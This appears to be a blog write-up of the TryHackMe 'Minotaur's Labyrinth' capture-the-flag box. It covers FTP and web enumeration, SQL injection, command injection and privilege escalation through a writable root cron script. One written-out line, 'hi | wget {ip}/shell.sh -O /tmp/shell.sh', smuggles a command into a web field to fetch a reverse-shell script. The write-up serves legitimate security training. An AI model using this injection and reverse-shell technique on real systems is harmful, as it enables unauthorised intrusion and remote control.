 ```yaml
---
layout: single
classes: wide
title: "TryHackMe Minotaur's Labyrinth"
header:
  teaser: /assets/images/motoko.jpg
excerpt: "Minotaur's Labyrinth was a fun and medium level box that I found on tryhackme."
---
```


Minotaur's Labyrinth was a fun and medium level box that I found on tryhackme by [xenox](https://tryhackme.com/p/xenox) and [spayc](https://tryhackme.com/p/spayc).

 1. [NMAP(Port Scanning)](#nmap)
 2. [FTP](#ftp)
 3. [Enumeration web](#enumeration-web)
 4. [SQLi](#sqli)
 5. [Reverse shell](#reverse-shell)
 6. [root!](#root)
 
## NMAP
So first, nmap shows us 4 open ports on the machine :

![enter image description here](https://i.imgur.com/xwqYuyu.png)

## FTP
Let's enumerate the FTP :

![enter image description here](https://i.imgur.com/C3mct4Z.png)

So, anonymous login to FTP service is also possible. Let’s enumerate the FTP share.
Seems like there is a directory named pub, inside, we can see the first flag in a "secret" folder and the first flag in it.

![enter image description here](https://i.imgur.com/DumbZi2.png)

## Enumeration web
So now let's enumerate port 80

![enter image description here](https://i.imgur.com/jKNPiA2.png)

As we can see, there is a login page.
With dirbuster, (or any URL brute-forcer)
We can see that the js folder is readable and the login script too. 

![enter image description here](https://i.imgur.com/X5rYfGh.png)

Let's check 

![enter image description here](https://i.imgur.com/J6LICHN.png)

In the script comments, we can see the "pwdgen function". With a simple python script, we can now know the password of "Daedalus"

![enter image description here](https://i.imgur.com/kFKCbeQ.png)

Let's login on the page.

![enter image description here](https://i.imgur.com/k2fU7W3.png)

## SQLi

There is a page on which we can type a name or a creature and bring out its ID and password.
By exploring a bit, I discovered that there is a very simple sql injection (don't need sqlmap).

![enter image description here](https://i.imgur.com/EZVbYNY.png)

Now we can try to bruteforce the hash to know the password, we can do it easily with John, but with crackstation.com we can do it too.

![enter image description here](https://i.imgur.com/RNdUxFM.png)

Now let's login with Minotaur. (we know he's admin with the source code of the page)

![enter image description here](https://i.imgur.com/fErOu3s.png)

Nice! We have the second flag, and a new access. Let's check.
There is a page that does an "echo" command for anything you can put on it.

![enter image description here](https://i.imgur.com/ipJiCJg.png)

But, with some tests I could see that by using vertical bars we can do commands outside the echo

![enter image description here](https://i.imgur.com/XRkNl2k.png)

## Reverse shell

So this is simple, let's just upload a simple bash reverse shell.

![enter image description here](https://i.imgur.com/tTUWaDp.png)

With just `hi | wget {ip}/shell.sh -O /tmp/shell.sh` the machine can take our reverse shell.
Now we just have to execute it.

![enter image description here](https://i.imgur.com/hWRRG2Q.png)

In the /home folder, there is just 3 folders called "user" "minotaur" and "anonftp". In one of the three, there is the third flag.
## root!

Looking at all the files (or with scripts like linPEAS), we find a weird folder with a script that runs as root every minute. (cron)

![enter image description here](https://i.imgur.com/hq2FJML.png)

And.. The script is writable..
So just put another reverse shell on it and wait a few seconds.

![enter image description here](https://i.imgur.com/rZeJP16.png)

![enter image description here](https://i.imgur.com/zpgAixX.png)

And we have the last flag!
**rooted!**
